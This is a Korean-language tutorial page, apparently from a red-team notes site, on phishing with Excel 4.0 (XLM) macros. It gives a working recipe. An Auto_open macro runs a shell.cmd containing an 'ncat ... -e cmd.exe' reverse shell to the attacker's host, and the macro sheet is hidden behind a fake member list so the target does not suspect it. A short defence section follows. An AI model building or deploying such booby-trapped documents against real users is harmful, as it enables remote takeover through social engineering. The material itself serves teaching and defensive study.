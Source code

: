 # XLM Excel 4.0 매크로

XLM (Excel 4.0) 매크로를 사용한 피싱 탬플랫 기법은 매우 전통적이고 유래가 깊은(?) 공격 탬플릿  기법이다. 이 기법을 사용한 공격은 주로 악성코드를 포함한 문서 파일을 이메일 첨부파일이나 링크를 통해 유포하는 사이버 범죄자나 해커들이 초기 침투 방식으로 사용하는 탬플릿 중 하나이기도 하다.

다행스럽게도, 최근 버전의 Microsoft Office에서는 VBA 매크로 실행을 디폴트로 비활성화하게 되어있고, XLM (Excel 4.0) 매크로를 사용한 공격 기법은 1990년대에 개발된 굉장히 오래된 기술이며 안 기술의 발전으로 인해 많이 찾지 않는 공격 기법이다. 따라서, 최근에는 XLM 매크로를 사용하는 공격이 VBA 매크로를 사용하는 공격보다는 정식 파일에 chm,lnk,hta등을 심어 사용하는 기법이 주로 쓰인다.

하지만 혹시라도 매크로 공격에 취약한 Excel 4.0과 5.0버전을 아직까지도 쓴다거나 블랙 해커가가 화려한언변과 소셜 엔지니어링을 통해 타겟 유저가 스스로 매크로 활성을 하게 유도한다면 매크로 공격은 쉽고도 정확한 공격 기법이 될수 있다.

## 실습

실습을 위해 File -> Info -> Macro Settings -> Enable VBA Macros...를 선택해 매크로를 활성화해준다.

![](<../../.gitbook/assets/Pasted image 20230502195135.png>)

아래 시트에서 우클릭 -> Insert (추가) -> MS Excel 4.0 Macro -> OK를 해준다.&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20230502193306.png" alt=""><figcaption></figcaption></figure>

간단한 테스트를 위해 아래 같이 각 열에 입력하여 계산기 (calc.exe)와 함께 "HELLO WORLD" 구문이 열리는지 확인해본다.

```
=EXEC("calc.exe")
=ALERT("HELLO WORLD!")
=HALT()
```

성공했다! 이제 우리는 EXCEL의 매크로를 통해 커맨드 EXEC로 앱 실행이 가능하다는 것을 알았다!&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20230502193523.png" alt=""><figcaption></figcaption></figure>

### 실전 예제

실전 예제를 들어보자.

이제 공격자는 타겟이 사용하는 EXCEL 매크로 기능을 통해 로컬 바이너리를 실행할 수 있다라는 사실을 알았다.

그렇다면 공격자는 간단한 netcat 리버스 쉘을 실행하는 백도어를 매크로에 심어 타겟이 공격자에 연결되게끔 할수 있다는 말이다!

shell.cmd 에 \`ncat 192.168.137.131 443 -e cmd.exe 를 저장한다. 공격자에 포트 443로 연결을 시도한다라는 뜻이다.

아래와 같이 shell.cmd를 실행하는 매크로를 생성하고 A1을 Auto\_open으로 바꿔주면 파일이 열림과 동시에 매크로가가 자동으로 실행될게 해줄수 있다.

```
=EXEC("C:\Temp\shell.cmd")
=ALERT("GROOT!")
=HALT()
```

![](<../../.gitbook/assets/Pasted image 20230502195827.png>)

일단 매크로 구문이 들어있는 EXCEL 파일은 누가봐도 수상하기 때문에 Hide (숨기기)를 해주고 정상 파일로 보이게 "회원 명단"과 같은 내용을 넣어준다.&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20230502195849.png" alt=""><figcaption></figcaption></figure>

타겟 유저가 보는 EXCEL 파일에는 매크로 탭은 보이지 않고 "회원 명단"만 보이게 되어 의심을 피할 수 있다.

<figure><img src="../../.gitbook/assets/Pasted image 20230504185904.png" alt=""><figcaption></figcaption></figure>

이제 타겟이 EXCEL 파일을 여는 순간 아래와 같이 공격자의 포트 443으로 리버스 쉘이 연결된 것을 알 수 있다!&#x20;

<figure><img src="../../.gitbook/assets/화면 캡처 2023-05-02 200259.png" alt=""><figcaption></figcaption></figure>

## 대응방안

XLM (Excel 4.0) 매크로를 사용한 공격 기법에 대응하기 위한 방안은 매크로 공격에 취약한 Excel을 최신 버전으로 패치하는거다. 또한 대부분의 안티바이러스 및 방화벽과 같은 보안 솔루션을 XLM 매크로 실행을 탐지하고 차단할 수 있으니 너무 걱정은 하지 않다도 되지만 그래도

마지막으로, 너무나도 당연하지만 수상한 이메일 첨부 파일이나 다운로드 링크를 클릭하지 않아야 한다. 만약에 매크로를 활성화해야 한다는 IT부서의 권고 이메일을 받게 되면 진짜 IT부서가 맞는지 의심하고 또 의심하길 바란다.

## 레퍼런스

{% embed url="https://en.wikipedia.org/wiki/Microsoft_Excel" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0" %}

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf" %}

